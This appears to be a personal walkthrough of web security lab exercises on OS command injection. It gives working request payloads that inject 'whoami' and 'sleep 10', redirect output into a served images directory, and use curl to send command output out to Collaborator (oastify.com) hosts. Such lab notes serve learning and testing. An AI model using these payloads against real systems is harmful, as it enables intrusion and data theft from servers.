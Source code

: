 # OS command injection, simple case
1. Load site
2. Check stock feature creates a POST request passing two parameters
3. Inject `whoami` command into `storeId` parameter
```
productId=2&storeId=1;whoami
```
# Blind OS command injection with time delays
1. Load site
2. Use "Submit feedback" feature to send POST request
3. Probe each parameter to trigger a time delay e.g. `sleep 10`
	1. Crafting subshell command injection in `message` parameter works
```
csrf=CtksuTKrOaFdpXRrJA3Zxu3kwCNnuR83&name=Name&email=email%40email.com&subject=Subject&message=`sleep+10`
```
# Blind OS command injection with output redirection
1. Load site
2. Use "Submit feedback" feature to send POST request
3. Probe each parameter to trigger a time delay e.g. `sleep 10`
	1. Crafting subshell command injection in `message` parameter works
4. `/images` is a directory serving files we can read from the server
5. Execute system command and direct output to `/var/www/images`
	1. I used hackvertor in Repeater, the command is `whoami >> /var/www/images/whoami.txt`
```
csrf=jI3Rp4Jszha0FlMUq6EDlzQ7FrQSMLJp&name=name&email=email%40email.com&subject=subject&message=`<@urlencode>whoami >> /var/www/images/whoami.txt</@urlencode>`
```
6. Retrieve output from the file inclusion parameter
```
/image?filename=whoami.txt
```
# Blind OS command injection with out-of-band interaction
1. Load site
2. Use "Submit feedback" feature to send POST request
3. Probe each parameter to make an out-of-band call to collaborator e.g. `curl https://z77n0giz7m3jsab4k36ko36lnct3hu5j.oastify.com`
4. `name` parameter is vulnerable using Linux subshell
```
csrf=5bYcqYiwlClONhiJqX1v0Mz4fEKXtKqh&name=`curl+https://z77n0giz7m3jsab4k36ko36lnct3hu5j.oastify.com`&email=email%40email.com&subject=subject&message=message
```
5. Check collaborator and confirm HTTP requests made to our server
# Blind OS command injection with out-of-band data exfiltration
1. Load site
2. Use "Submit feedback" feature to send POST request
3. Probe each parameter to make an out-of-band call to collaborator e.g. `curl https://z77n0giz7m3jsab4k36ko36lnct3hu5j.oastify.com`
4. `name` parameter is vulnerable using Linux subshell
```
csrf=B99l8S7aeJNsM5d2rXMv1htIf13OMaQ4&name=name`curl+https://dr81ku2dr0nxcovi4hqy8hqz7qdh1apz.oastify.com`&email=email%40email.com&subject=subject&message=message
```
5. `name` parameter was too short for successful OOB exfiltration, fortunately `message` parameter is vulnerable as well
6. Use a `curl` command and send a POST request using another system command as the body data
```
csrf=B99l8S7aeJNsM5d2rXMv1htIf13OMaQ4&name=name&email=email%40email.com&subject=subject&message=message`curl+-X+POST+-d+"$(whoami)"+https://1kmpdiv1kogl5co6x5jm15jn0e65u0ip.oastify.com`
```
- Without URL encoding the payload is:
```
curl -X POST -d "$(whoami)" https://1kmpdiv1kogl5co6x5jm15jn0e65u0ip.oastify.com
```
7. Check Collaborator events for and look at the HTTP request to read the output of the commands